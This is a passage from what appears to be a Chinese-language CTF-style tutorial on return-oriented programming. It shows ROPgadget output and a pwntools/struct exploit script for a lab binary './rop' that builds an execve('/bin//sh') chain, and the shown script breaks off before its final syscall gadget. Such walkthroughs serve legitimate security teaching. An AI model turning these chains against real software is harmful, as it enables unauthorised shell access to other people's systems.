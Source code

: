 ```ROPgadget --binary ./rop --ropchain```
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

```

然后再其中加入pwntools的语句即可。注意 ```from pwn import *```的话会导入 pwntools 中的 pack 函数，为了避免这个问题，可以对 struct 中的 pack 进行重命名：```from struct import pack as pk```。

最终的利用脚本如下：

```python
#!/usr/bin/env python
# execve generated by ROPgadget

from struct import pack as pk
from pwn import *

# Padding goes here
p = ''

p += pk('<I', 0x0806ecda) # pop edx ; ret
p += pk('<I', 0x080ea060) # @ .data
p += pk('<I', 0x080b8016) # pop eax ; ret
p += '/bin'
p += pk('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pk('<I', 0x0806ecda) # pop edx ; ret
p += pk('<I', 0x080ea064) # @ .data + 4
p += pk('<I', 0x080b8016) # pop eax ; ret
p += '//sh'
p += pk('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pk('<I', 0x0806ecda) # pop edx ; ret
p += pk('<I', 0x080ea068) # @ .data + 8
p += pk('<I', 0x080492d3) # xor eax, eax ; ret
p += pk('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pk('<I', 0x080481c9) # pop ebx ; ret
p += pk('<I', 0x080ea060) # @ .data
p += pk('<I', 0x080de769) # pop ecx ; ret
p += pk('<I', 0x080ea068) # @ .data + 8
p += pk('<I', 0x0806ecda) # pop edx ; ret
p += pk('<I', 0x080ea068) # @ .data + 8
p += pk('<I', 0x080492d3) # xor eax, eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
p += pk('<I', 0x0807a66f) # inc eax ; ret
```